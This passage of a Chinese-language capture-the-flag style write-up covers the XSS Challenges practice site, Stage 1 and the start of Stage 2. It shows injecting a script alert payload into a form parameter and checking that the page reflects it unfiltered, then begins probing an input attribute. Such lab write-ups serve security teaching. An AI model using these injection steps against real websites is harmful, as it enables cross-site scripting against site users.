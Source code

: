 查看源码

```
<b>"hello"</b>
```

**判断能否执行 javascript 代码**

设置 `p1=<script>alert(document.domain);</script>`，提交代码

```
<script>alert(document.domain);</script>
```

![](./../../../../images/XSS_Challenges/%E6%8F%90%E4%BA%A4%E4%BB%A3%E7%A0%81.png)

查看源码

```
<b>"<script>alert(document.domain);</script>"</b>
```

> 发现插入到 \<b> \</b> 标签中，说明插入成功，且未过滤

### 1.1.2 Stage #2 属性中的 XSS 注入

>https://xss-quiz.int21h.jp/stage2.php

**查看可控参数**

查看交互栏源码

```
<input type="text" name="p1" size="60" value="">
```

**查找页面的回显**

在交互栏输入 hello

![](./../../../../images/XSS_Challenges/%E5%9C%A8%E4%BA%A4%E4%BA%92%E6%A0%8F%E8%BE%93%E5%85%A5%20hello.png)
